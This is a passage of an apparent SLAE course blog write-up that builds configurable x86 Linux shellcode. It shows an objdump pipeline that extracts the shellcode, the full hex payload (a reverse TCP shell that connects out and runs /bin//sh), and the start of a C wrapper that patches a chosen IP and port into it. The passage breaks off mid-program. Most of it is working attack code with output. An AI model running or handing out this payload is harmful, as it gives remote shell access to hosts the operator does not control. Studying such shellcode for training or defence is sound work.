 <p style="text-align:justify;">
Moreover, in order to create the configurable shellcode, the first thing to do is to use the following command to create the shellcode
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># objdump -d ./reverse|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xf7\xe2\x52\x89\xd3\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x5b\x68\xc0\xa8\xc8\x04\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xfb\x31\xc9\xb0\x3f\xcd\x80\x41\x66\x83\xf9\x02\x7e\xf5\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>

<p style="text-align:justify;">Afterwards, the following code utilises the shellcode created from the assembly code. The program initialises a custom <strong>PORT</strong> and <strong>IP</strong> to connect to the target host.</p>

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define PORT 27
#define IP 21

int main(int argc, char *argv[])
{

unsigned char shellcode[] = \
"\x31\xc0\xf7\xe2\x52\x89"
"\xd3\x43\x53\x6a\x02\x89"
"\xe1\xb0\x66\xcd\x80\x89"
"\xc7\x5b\x68"
"\xc0\xa8\xc8\x04" //IP
"\x66\x68"
"\x04\xd2"// PORT
"\x66\x53\x89\xe1\x6a\x10"
"\x51\x57\x89\xe1\x43\xb0"
"\x66\xcd\x80\x89\xfb\x31"
"\xc9\xb0\x3f\xcd\x80\x41"
"\x66\x83\xf9\x02\x7e\xf5"
"\x31\xc0\x50\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x89\xe2"
"\x53\x89\xe1\xb0\x0b\xcd"
"\x80";

if (argc &lt; 2) {
printf("[!] Usage: %s &lt;IP&gt; &lt;PORT&gt;\n\n", argv[0]);
return -1;
}

// provide binary form of the IP into the shellcode in order to be able to connect to that specific IP address
unsigned ipaddress = inet_addr(argv[1]);
```